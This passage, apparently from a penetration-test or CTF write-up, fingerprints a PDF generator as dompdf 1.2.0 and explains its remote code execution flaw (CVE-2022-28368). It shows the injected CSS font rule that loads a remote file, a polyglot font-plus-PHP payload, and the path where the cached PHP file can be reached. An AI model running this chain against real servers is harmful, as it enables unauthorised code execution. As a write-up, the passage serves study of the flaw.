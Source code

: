 Looking at the output produced by this API endpoint using `pdfinfo`, the metadata shows the PDF was produced by dompdf 1.2.0:

```bash
$pdfinfo out.pdf 
Producer:       dompdf 1.2.0 + CPDF
CreationDate:   Sat Apr  1 17:19:09 2023 AEDT
ModDate:        Sat Apr  1 17:19:09 2023 AEDT
Tagged:         no
UserProperties: no
Suspects:       no
Form:           none
JavaScript:     no
Pages:          1
Encrypted:      no
Page size:      419.53 x 595.28 pts
Page rot:       0
File size:      1143 bytes
Optimized:      no
PDF version:    1.7
```

Searching for dompdf 1.20.0 exploits, we find the following: [GitHub - positive-security/dompdf-rce: RCE exploit for dompdf](https://github.com/positive-security/dompdf-rce) - CVE-2022-28368:

We know the PDF renderer will follow `href`s in the link tag, which could be a stylesheet -- and this exploit appears to give RCE by injecting CSS into the PDF rendering engine which requests a malicious font file we serve up to the target:

```css
@font-face {
    font-family:'exploitfont';
    src:url('http://localhost:9001/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
  }
```

From there, the server will request the 'font', which contains PHP Code (but the file type based on magic bytes is a valid TTF font).  This 'font' is cached server side and looks something like:
 
```php
� dum1�cmap`�,glyf5sc��head�Q6�6hhea��($hmtxD
Lloca
Tmaxp\ nameD�|8dum2� -��-����
:83#5:08��_<�@�8�&۽
:8L��
:D
6				s
<?php phpinfo(); ?>
```

The cached 'font' is then available at `http://target/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_<md5 hash>.php`, where the md5 hash is generated from the font URL in the stylesheet above - `http://localhost:9001/exploit_font.php`
